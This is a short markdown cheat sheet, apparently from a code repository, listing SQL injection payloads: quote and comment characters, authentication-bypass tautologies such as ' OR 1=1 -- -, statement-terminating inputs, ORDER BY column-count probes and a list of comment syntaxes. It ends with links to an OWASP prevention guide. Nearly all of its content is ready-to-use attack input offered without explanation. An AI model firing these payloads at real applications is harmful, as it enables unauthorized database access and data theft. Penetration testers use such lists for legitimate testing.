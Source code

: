 # SQL Inject Payloads
´´
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --

1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

Comentarios:

#
/*
-- -
;%00
`
´´'
## Links

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

https://www.w3schools.com/sql/sql_injection.asp
